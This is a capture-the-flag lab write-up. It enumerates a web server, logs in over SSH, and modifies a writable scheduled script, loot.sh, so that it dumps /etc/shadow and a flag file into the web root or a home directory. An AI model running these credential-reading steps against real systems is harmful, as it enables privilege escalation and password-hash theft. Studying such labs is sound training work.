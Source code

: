 # Dev(Insecure)Ops 

```bash
export IP=10.10.210.114
```


## Enumerate
```bash
gobuster dir --url http://$IP -w /opt/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -o gobuster/initial
```

found 2 dirs

```bash
dirb http://$IP
````

found `x` pages



## Connect to server (credentials in task info)
```bash
ssh mcskidy@$IP
```

Interesting file in `/home/thegrinch/scripts`

## Testing
Testing changes to contents of `loot.sh` 
```bash
#!/bin/bash

cat /etc/shadow > /var/www/html/ls.html
```

It worked, after few minutes.
Whe got output of `/etc/shadow` in one of the pages found on first step.


## Change the script to output flag

```bash
cat /home/thegrinch/Desktop/flag.txt > /var/www/html/ls.html
```


## Also
You can create write to file where you have `read` permissions. 

That is better way, because target machine may not have web front or don't write there or etc.

So we can create file in our home:
```bash
touch /home/mcskidy/file
```

And then write to it with `loot.sh` something like that:
```bash
cat /home/thegrinch/Desktop/flag.txt > /home/mcskidy/file

```

# Finish